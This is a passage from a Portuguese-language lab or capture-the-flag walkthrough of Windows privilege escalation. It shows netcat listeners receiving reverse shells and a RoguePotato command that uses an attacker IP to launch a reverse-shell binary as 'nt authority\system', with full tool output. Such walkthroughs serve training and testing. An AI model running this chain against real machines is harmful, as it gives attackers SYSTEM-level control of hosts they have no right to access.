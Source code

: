dessa forma conseguimos uma conexão reversa como `nt authority\local service`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         23:18:29
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49759
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service

C:\Windows\system32>
```

Agora nessa shell vamos utilizar o comando `C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999` para executar o `reverse.exe` como `nt authority\system`:

```powershell
C:\Windows\system32>C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999
C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: C:\PrivEsc\reverse.exe
[+] RoguePotato gave you the SYSTEM powerz :D
```

Dessa forma conseguimos uma conexão reversa como `nt authority\system`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           23:13:20
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49801
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
